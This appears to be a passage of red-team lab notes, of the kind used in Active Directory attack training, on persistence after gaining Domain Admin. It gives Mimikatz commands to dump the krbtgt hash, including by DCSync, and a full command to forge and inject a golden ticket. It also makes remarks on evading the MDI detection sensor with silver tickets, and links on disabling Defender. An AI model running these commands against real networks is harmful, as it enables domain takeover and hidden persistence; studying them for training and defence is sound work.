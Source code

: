 **For disable and enable windows features like defender (useful  official documentation) -**\
[https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/microsoft-defender-antivirus-on-windows-server?view=o365-worldwide](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/microsoft-defender-antivirus-on-windows-server?view=o365-worldwide)\
[https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/enable-or-disable-windows-features-using-dism?view=windows-11](https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/enable-or-disable-windows-features-using-dism?view=windows-11)

\-----------------------------------------------------------------------------------------------------

## 4. Persistence - (post Domain Admin part)

### Golden Ticket - (a valid TGT)

**Method 1 (for getting krbtgt secret) - Execute Mimikatz on DC as DA to get krbtgt hash -**

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc 
```

**Method 2 (for getting krbtgt secret) - TO use the DCSync features for getting AES keys for krbtgt account. Use the below command with DA privileges (or a user that has replication rights on the domain object) -**

```
SafeyKatz.exe "lsadump::dcsync /user:dcorp-dc\krbtgt" "exit"
```

NOTE - Using the DCSync option needs no code execution on the target DC.

**FINALLY -**\
**Use the below command to create the golden ticket on any machine that has network connectivity with DC.**

```
BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:SID /aes256:KEY /startoffset:0 /ending:600 /renewmax:10080 /ptt" "exit"
```

![](<.gitbook/assets/image (9).png>)

![](<.gitbook/assets/image (10).png>)

#### Bonus ! --> \[MDI sensor (be aware) - silent detector]

### Silver Ticket - (a valid TGS)

* Encrypted and signed by the hash of a service account (_Golden ticket is signed by hash of krbtgt_) of the service running with that account.
* Service rarely check PAC (Privileged attribute certificate)
* Service will allow access to the service themselves.
* Reasonable persistence period (default 30 days for computer accounts)

**Bonus! --> Not detectable by MDI sensor!!! It is actually neglected by the dector because it seems so small to MDI.**
